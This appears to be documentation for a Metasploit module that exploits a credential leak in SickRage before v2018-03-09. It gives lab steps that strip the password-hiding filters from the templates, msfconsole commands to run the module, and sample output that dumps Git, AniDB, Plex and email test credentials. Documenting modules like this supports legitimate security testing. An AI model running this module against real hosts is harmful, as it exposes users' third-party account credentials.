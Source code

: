 ## Description
  
 This module exploits a vulnerability in SickRage for versions under v2018-03-09. A simple GET request will return clear-text credentials for Github, Kodi, Plex, AniDB, etc. This exploit will only work if the user has not set credentials for the SickRage application. By default, SickRage credentials are not set.

## Vulnerable Application

  SickRage < v2018-03-09

### Installation and Setup

  The vulnerable versions of SickRage are no longer accessible, but the latest release can be made vulnerable with a few changes.
  The latest SickRage release for Windows can be found [here](https://github.com/SickRage/SickRageInstaller/releases).

## Verification Steps

  1.   Install the application
  2.   Navigate to `C:\SickRage\SickRage\gui\slick\views`
  3.   Open `config_general.mako`
  4.   Find the input element with the name `git_password`
  5.   Change the value from `${sickbeard.GIT_PASSWORD|hide}` to `${sickbeard.GIT_PASSWORD}`
  6.   Save the changes
  7.   Open `config_anime.mako`
  8.   Find the input element with the name `anidb_password`
  9.   Change the value from `${sickbeard.ANIDB_PASSWORD|hide}` to `${sickbeard.ANIDB_PASSWORD}`
  10.  Save the changes
  11.  Open `config_notifications.mako`
  12.  Find the input element with the name `kodi_password`
  13.  Change the value from `${sickbeard.KODI_PASSWORD|hide}` to `${sickbeard.KODI_PASSWORD}`
  14.  Find the input element with the name `plex_server_password`
  15.  Change the value from `${sickbeard.PLEX_SERVER_PASSWORD|hide}` to `${sickbeard.PLEX_SERVER_PASSWORD}`
  16.  Find the input element with the name `plex_client_password`
  17.  Change the value from `${sickbeard.PLEX_CLIENT_PASSWORD|hide}` to `${sickbeard.PLEX_CLIENT_PASSWORD}`
  18.  Find the input element with the name `email_password`
  19.  Change the value from `${sickbeard.EMAIL_PASSWORD|hide}` to `${sickbeard.EMAIL_PASSWORD}`
  20.  Save the changes
  21.  Start SickRage
  22.  Start msfconsole
  23.  Do: `use [auxiliary/scanner/http/http_sickrage_password_leak]`
  24.  Do: `set RHOSTS [IP]`
  25.  Do: `run`
  26.  The credentials that the user has set should be printed to the screen

## Scenarios

### Tested on Windows 7 x86

  ```
  msf > use auxiliary/scanner/http/http_sickrage_password_leak
  msf auxiliary(scanner/http/http_sickrage_password_leak) > set RHOSTS 192.168.37.130
  RHOSTS => 192.168.37.130
  msf auxiliary(scanner/http/http_sickrage_password_leak) > run

  [+] git username: myUsername
  [+] git password: myPassword
  [+] anidb username: anidb
  [+] anidb password: anidbpass
  [+] plex_server username: plexu
  [+] plex_server password: plexp
  [+] plex_client username: plextu
  [+] plex_client password: plextp
  [+] Email username: sickrage@sickrage.com
  [+] Email password: sickragepass
  [*] Auxiliary module execution completed
  msf auxiliary(scanner/http/http_sickrage_password_leak) >
  ```
